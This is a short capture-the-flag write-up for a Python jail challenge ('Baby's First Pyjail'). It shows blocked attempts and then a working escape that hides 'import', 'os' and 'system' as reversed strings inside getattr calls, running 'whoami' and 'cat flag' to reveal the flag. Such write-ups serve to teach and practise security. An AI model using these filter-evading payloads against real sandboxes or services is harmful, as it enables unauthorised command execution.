

# Baby's First Pyjail


in this challenge we don't have the source code so let's guess.

first i tried basic instructions

```python
import os # return "try harder"
import sys # return "try harder"
..
```

it seems we can not use import lets try something else

```python
__import__('os').system('whoami'); # return "try harder
```
```python
exec('Your Input Here', {'__builtins__': None, 'print':print}); # return "try harder
```
lets try:

```python
dir(__builtins__) # return "try harder
```
nothing worked after few tries i tried:

```python
getattr(getattr(__builtins__,'__tropmi__'[::-1])('so'[::-1]),'metsys'[::-1])('whoami');
```
and it returns `ctfuser`

Now we need to cat the flag
```python
getattr(getattr(__builtins__,'__tropmi__'[::-1])('so'[::-1]),'metsys'[::-1])('cat flag');
```
and we got the flag `uoftctf{you_got_out_of_jail_free}`


